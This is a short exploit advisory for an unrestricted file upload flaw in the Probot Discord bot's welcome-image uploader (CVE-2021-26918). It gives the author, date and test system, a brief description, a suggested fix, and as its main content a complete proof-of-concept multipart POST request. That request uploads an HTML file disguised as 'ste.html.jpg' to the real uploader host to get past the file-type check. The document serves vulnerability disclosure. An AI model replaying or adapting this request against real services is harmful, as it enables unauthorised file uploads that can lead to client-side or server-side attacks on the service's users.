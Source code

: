     # Exploit Title: Discord Probot - Unrestricted File Upload
    # Google Dork: N/A
    # Date: 2021-02-08
    # Exploit Author: ThelastVvV
    # Vendor Homepage:probot.io
    # Version:Version 2021
    # Tested on: Debian 5.7.10-1parrot2
    # CVE:CVE-2021-26918


    About:
    Probot is a discord very customizable multipurpose bot for welcome image, In-depth logs, Social commands, Music, Moderation and many more ...

    # Description:

    The attacker can acces to probot dashboard and use image uploader in the welcomer tab , the attacl can upload many file types  due the issues of unrestricted file uploads which can be bypassed by changing multipart/form-data POST request with a specially-crafted filename or mime type.

    # PoC:


    POST / HTTP/1.1
    Host: uploader.probot.io
    Accept: application/json, text/plain, */*
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: multipart/form-data; boundary=---------------------------
    Content-Length: 333
    Origin: https://probot.io
    DNT: 1
    Connection: close
    Referer: https://probot.io/server/""/welcomer

    -----------------------------
    Content-Disposition: form-data; name="file"; filename="ste.html.jpg"
    Content-Type: text/html

    <!DOCTYPE html>
    <html>
      <head>
        <title>bypasss</title>
      </head>
      <body>
        <div>bypass</div>
      </body>
    </html>

    -------------------------------

    Note:the link of the file will be generated depend on the content type in this case .html

    # Impact
    Unrestricted file uploads can be abused to exploit other vulnerable sections of an application when a file on the same or a trusted server is needed (can again lead to client-side or server-side attacks)

    #Solution
    File types should be restricted to only jpg ,png ,jpeg  (text/img)